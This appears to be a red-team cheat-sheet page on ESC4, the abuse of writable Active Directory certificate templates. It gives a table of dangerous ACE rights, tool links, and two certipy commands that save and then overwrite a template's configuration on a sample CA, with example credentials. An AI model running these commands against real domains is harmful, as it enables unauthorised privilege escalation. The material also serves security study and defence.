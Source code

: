 ```yaml
---
description: Vulnerable Certificate Template ACEs
---
```


# ESC4

* [https://github.com/cfalta/PoshADCS](https://github.com/cfalta/PoshADCS)

| Right           | Description                                                    |
|-----------------|----------------------------------------------------------------|
| `Owner`         | Implicit full control of the object, can edit any properties.  |
| `FullControl`   | Full control of the object, can edit any properties.           |
| `WriteOwner`    | Can modify the owner to an adversary-controlled principal.     |
| `WriteDacl`     | Can modify access control to grant an adversary `FullControl`. |
| `WriteProperty` | Can edit any properties.                                       |




## Enumerate and Modify Templates

- [https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4](https://www.fortalicesolutions.com/posts/adcs-playing-with-esc4)
- [https://github.com/fortalice/modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate)

```
$ certipy template -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -template VulnTemplate -save-old -dc-ip 192.168.1.11
$ certipy template -u snovvcrash@megacorp.local -p 'Passw0rd!' -target CA01.megacorp.local -template VulnTemplate -configuration VulnTemplate.json -dc-ip 192.168.1.11
```

